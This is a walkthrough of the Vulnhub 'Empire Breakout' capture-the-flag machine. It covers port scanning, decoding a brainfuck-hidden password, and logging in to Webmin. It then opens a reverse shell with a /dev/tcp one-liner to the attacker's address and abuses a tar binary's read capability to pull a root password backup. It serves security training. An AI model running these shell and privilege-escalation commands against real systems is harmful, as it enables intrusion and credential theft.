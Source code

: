 ```yaml
---
title: Vulnhub - Empire Breakout Writeup
date: 2022-03-04 10:00:00 +0530
categories: [Vulnhub]
tags: [vulnhub, getcap, easy, privlege-escalation]
---
```


## Intro  
[Breakout](https://www.vulnhub.com/entry/empire-breakout,751/) is an easy box freely available on [vulnhub](https://www.vulnhub.com/) website. The author of the box describes it as a CTF styled box and it need a fair amount of enumeration just like the previous Empire box. And as usual, we can expect two flags:
* User flag
* Root flag  

So let's start!

## Enumeration

To begin with, we will start a quick nmap scan to identify all the open ports and possibly all the services which are running on those open ports as well. I like to use the following tags and scan all the open ports on the machine. It might be time consuming but it is better to be thorough than missing something crucial. And moreover the box description asks us to enumerate as much as we can.  

```
nmap -sC -sV -p- --open -oN nmap_scan 192.168.146.128
```
Here is a quick description of all the tags used - 
* -sC: Instrcut nmap to use all the default scripts
* -sV: Help identifying the services running on the open ports
* -p: Specify which port range to scan. Adding '-' at the end will scan all the ports
* --open: Only show open ports
* -oN: Specify output file

![nmap_scan](/assets/breakout/nmap.png)

Here we have the following ports open with their respective services
1. 80: Running Apache Webserver
2. 139 & 445 : Running Samba
3. 10000: Running Webmin version 1.981
4. 20000: Running Webmin version 1.830

Taking a look at the website served by the webserver, It seemingly looks like an apache default page. 

![breakout_web](/assets/breakout/breakout_web.png)

On visiting the source for the default page, there was an unusual amount of free space at the end of the page. After continuous scrolling we came across a cipher text of sorts.

![breakout_cipher](/assets/breakout/breakout_cipher.png)

Let's analyse this cipher with the help of a tool like decode.fr's cipher analyser.

![cipher_analysis](/assets/breakout/ciper_breakout.png)

It's a brainfuck cipher. This was the first time I came across this one. Let's get this decypted.

![brain_decoded](/assets/breakout/brain_decoded.png)

It seems to be some kind of a possible password or could just be a credential to something.  
Next we also have samba running on the server, Let's enumerate that. I will use enum4linux for the same

```
enum4linux -a 192.168.146.128
```
I couldn't find any kind of access window to the server but we did find a local user.

![breakout_user](/assets/breakout/breakout_user.png)

## Initial Access

We don't have a SSH interface enabled to try the credentials we found after decrypting the cipher but we do have webmin interface. Let's try the credentials there.
The Webmin service running on port 20000 accepted our credentials.

![cyber_webmin](/assets/breakout/webmin_cyber.png)

We can easily get a shell in the webmin environment, you can work with that as well, but I switched to the terminal using a simple revese shell.
```
sh -i >& /dev/tcp/192.168.146.131/9001 0>&1
```
![Webmin_shell](/assets/breakout/webmin_cmd.png)

After getting the shell, I stablilised it. I used the following command to stabilise the shell. Once again, it is not necessary to stablise the shell but since we are going to be working with it, it's just recommended to have some minimum functionality.

```
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
(press CTRL+Z)
stty raw -echo;fg;reset
```

Now in the home directory we have the user flag and a suspicious looking tar binary owned by root which we can execute. Whenever you come across a misplaced binary like that in a CTF, it is most likely that it will be the key to the box. 

![cyber_ls](/assets/breakout/cyber_ls.png)

## Privilege Escalation

Doing a little bit of enumeration on the machine, we can see that there is a old_pass.bak file located in /var/backups but we don't have the required permissions to view the file contents.

![old_pass](/assets/breakout/old_pass.png)

Let's get back to the tar binary and see if we can do anything with it. To begin with, since there are no special permissions, we will look into the capabilities of the file. It is different than the permissions which a file have. You can get more info about the capabilities and the different capabilities which exists [here](https://man7.org/linux/man-pages/man7/capabilities.7.html). We will use the following command to check the capabilities. 

```
getcap tar
```
![getcap](/assets/breakout/getcap_tar.png)

It has the following capability:  
CAP_DAC_READ_SEARCH - It means that it can read all the files on the system irrespective of their permissions.

We can compress the contents of the old_pass.bak file in a tarball and then extract it. This should provide us the the required permissions to view the contents of the file.
```
./tar -cf pass.tar /var/backups/.old_pass.bak
tar -xf pass.tar 
cat var/backups/.old_pass.bak
```
![su_pass](/assets/breakout/Su_pass.png)

We have got the root password now it seems. Using these credential we can log into the root account and we can get access to the root flag as well now.

![root](/assets/breakout/root.png)

With this we have successfully completed this machine.